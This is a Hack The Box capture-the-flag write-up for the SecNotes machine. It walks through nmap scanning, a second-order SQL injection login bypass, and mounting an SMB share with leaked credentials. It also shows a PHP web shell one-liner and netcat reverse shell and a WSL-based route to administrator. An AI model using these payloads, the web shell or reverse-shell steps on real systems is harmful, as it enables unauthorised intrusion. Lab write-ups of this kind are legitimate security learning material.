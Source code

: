 ## Welcome to my second WriteUp. This time I rooted the SecNotes box and I am gonna tell you how I did it.

## First Step

Always the first step is to enumerate the target. My target is on the 10.10.10.97 (SecNotes' IP). I used the **nmap** tool to find open ports and vulnerabilities. So I executed the next command:

`nmap -sC -sV -oA nmap/nmap-init 10.10.10.97`

I used the next options
- -sC: Use default scripts for common vulnerabilities
- -sV: Determine service / version information
- -oA: Output in the three major formats at once. It's great if you want to have many formats of the same output for different usages.

The results are below and as we can see, there are two open ports. One is **80** (__http__ => __Version: Microsoft IIS httpd 10.0__) and the second is the port **445** (__microsoft-ds__).

![nmap](/prtsc/1-firstNmap.png)

We can see that we have to deal with a **Windows 10** machine. That's something that we should have in mind as we proceed deeper in this box.

In general, the next step is to open the web application in a browser and search main page's source code to find an information that has been leaked or some hint for our next move. In this case we have just a login port.

![port80]((/prtsc/2-port80.png)

## Let's get dirty

Nothing much here. I tried to log in with some default credentials like __admin/admin__ or __admin/password__ but I didn't have any luck with them so the next thing on my list is to try to do a SQLi(njection). Let's see how that went.

![sqli](/prtsc/3-loginSQLi.png)

I tried my HtB's username (_akumu_) plus some weird characters, but it didn't work. So the programmer here did a good job.

Then I pressed the **Sign up now** button on the botom of the screen and I went a new form where I can sign up any user I want.
I was stuck at this page and I didn't know what to do. I could create a user and after I could sing in with these credentials but that wasn't enough. I wanted to find something. So the Second Order SQLi(njection) came to my mind.

If you want to read more about Second Order SQLi, you can press [here](https://portswigger.net/kb/issues/00100210_sql-injection-second-order)!

So the first thing I tried it was to create a user with the name `k` and to do my injection here. The password doesn't really matter, but you have to follow the security rules of the current form.

![secondOrder](/prtsc/5-secondOrderSQLi.png)

_My password is the same as my username, but you can use anything you want._

So, now I have a corrupted database that can exploit just by doing a _normal_ sign in to the page. Let's see if that works.

![testing](/prtsc/6-SecondOrderSQLiPage.png)

**It just works!**
As you can see there are some weird numbers in my page that shouldn't be there. So let's go back and try something different. Back @ `10.10.10.97/register.php`. Now I am trying to perform a log in through second order, and to achieve that I tried the classic `' or '1=1'-- -` trick as you can see in the next image. `V` is just a username I choosed, it doesn't matter.

![logIn](/prtsc/4-SecondOrderSignIn.png)

Ok, we passed the corrupted user again in the database and now we can call him. Let's sign in.

![tyler](/prtsc/7-tylerNotes.png)

What is this?? Oh that's Tyler's page. And he has some notes for __us__. Let's read them.

So in the note with the title **new site** we have some intresting things. First of all, there are some credentials that I can save for later (__tyler / 92g!mA8BGj0irkL%OG*&__), and one path. The path says `\\secnotes.htb\new-site`. But what is this you are asking? This is a shared folder.

## Folders, folders and folders!

I can **mount** the folder from the web server to my machine and move files in or out.
The command I used to mount the folder was:

`mount -t cifs -o vers=1.0,username=tyler //secnotes.htb/new-site /mnt/temp`

I used the next options
- -t: Limit the set of filesystem types
- -o: Comma-separated list of mount options. I used _vers_ to define the version that I want to use and _username_ to authenticate myself.
- The path for the path for the folder on the server.
- The local path that will mount the folder

As you can see in the picture below, after the mount is complete, I can see the files inside it, and also I can read and write in this folder.

![mount](/prtsc/8-mountCifs.png)

At this point, I runned a full TCP scan for open ports in the machine. The command I used was:
`nmap -sT -p- -oA nmap/nmap-full-ports 10.10.10.97`

I used the next options
- -sT: TCP connect() scan
- -p-: Only scan specified ports. If you use -p- scan all the ports instead.
- -oA: Output in the three major formats at once.

My new results.

![full](/prtsc/9-fullNmap.png)

I just found a new port @ **8808**. I will open this port in my browser and I will see the next page.

![IIS](/prtsc/10-port8808.png)

So here we have another page. It's the default page of the **Internet Information Service of Windows**. Looking the source code of the page, I didn't find anything.

## RCE and Reverse Shell

Back where we were. To get a reverse shell from the server back to my machine, I had to put my `reverse shell PHP file` with a `nc.exe` (this is the executable of **netcat** for Windows) in the shared folder. My `shell.php` file, it's an oneliner.

`<?php system($_GET["cmd"]); ?>`

![watch](/prtsc/11-watch1min.png)

Then I tested my file to see if it works, with a simple `whoami` command through the portal on port **8808**. The results are in.

![whoami](/prtsc/12-RCE-whoami.png)


Next step is to set a reverse shell with a netcat listener in my end, and the `nc.exe` file on the server.

![firstshell](/prtsc/13-firstShell.png)

So here I am. In the Windows server, connected as `secnotes\tyler`. The problem is that after a while I lost my reverse shell and when I went back into the share folder, my files were gone. So I did everything again and I got a new reverse shell. Then as fast as I could I tried to find a clue about that. It didn't take me long to find the next script on the server.

![cleanup](/prtsc/14-cleanupScript.png)

So what it does, it checks the shared folder every 5 minutes for files that they don't start with `iisstart` and it removes them. So I renamed my files into `iisstart.php`(old _shell.php_) and `iisstart.exe`(old _nc.exe_). After that I had a stable reverse shell to play around, as you can see in the next picture.

![stableShell](/prtsc/15-stableShell.png)

Searching in the folders of the server, I found a `Distros` folder, which I didn't knew what it is at this point. Going inside I found an interesting file as you can see in the next 2 screenshots.

![distros](/prtsc/16-DistrosDir.png)

![ubuntu](/prtsc/17-ubuntuExe.png)

I executed the `ubuntu.exe` in the server but nothing happened. *Or atleast I didn't see something*. I searched for the `user.txt` file because I didn't know what else to do. I found the `user.txt.` as you can see in the next picture.

![user](/prtsc/18a-usertext.png)

At this point I didn't know much about IIS so I went back on searching and reading. If you want to check it out, a good place to start is [here](https://docs.microsoft.com/en-us/windows/wsl/about). So all I have to do was to execute a file called `wsl.exe`.

![wsl](/prtsc/19-UbuntuRoot.png)

As you can see, I didn't know where the file is so I searched with `WHERE -R wsl.exe`. After the execution I saw an empty line and an error. I was confused and I thought that I broke something. I tried to run `id` and I was suprised when I saw that I am the `root`. *But where?* Do you remember that `ubuntu.exe` from before? Yeah, that's correct. I was inside that "box".

So now I have to find something on this box. I checked the root's `.bash_history`, and I found a new command that was used to mount the filesystem as the `administrator` of the Windows machine, with the administrators' password. That was it. I had to execute again the same command.

![smbclient](/prtsc/20-smbclient.png)

After that, the box was done. I was back on the Windows machine and I was the administrator. I searched for the `root.txt` and I got it.

![root.txt](/prtsc/21-rootTxt.png)

## THE END

This was the box, and actually was really fun. I learned a ton of new things and it was really challenging. I suggest this box to everyone.

## Have fun and happy hacking!!

by *Akumu*.
